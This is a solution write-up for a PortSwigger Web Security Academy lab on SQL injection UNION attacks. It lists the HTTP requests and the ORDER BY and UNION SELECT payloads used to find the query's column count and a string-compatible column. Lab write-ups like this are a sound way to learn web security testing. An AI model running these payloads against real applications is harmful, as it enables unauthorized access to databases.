

# [Lab: SQL injection UNION attack, finding a column containing text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

## Lab

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform an SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

## Solutions

1. Detect SQLi:

    - `GET /filter?category=' HTTP/1.1`

    ```http
    HTTP/1.1 500 Internal Server Error
    ```

2. Determining the number of columns using `ORDER BY`:
    - positions: `GET /filter?category='+ORDER+BY+§1§-- HTTP/1.1`
    - payloads: 1 -> 10
    - result:

      

    - => 3 columns
3. Finding a column containing text using `UNION`:
    - `'UNION+SELECT+'g9mlxp',NULL,NULL--` -> 500
    - `'UNION+SELECT+NULL,'g9mlxp',NULL--` -> 200 -> Lab Solved
    - `'UNION+SELECT+NULL,NULL,'g9mlxp'--` -> 500
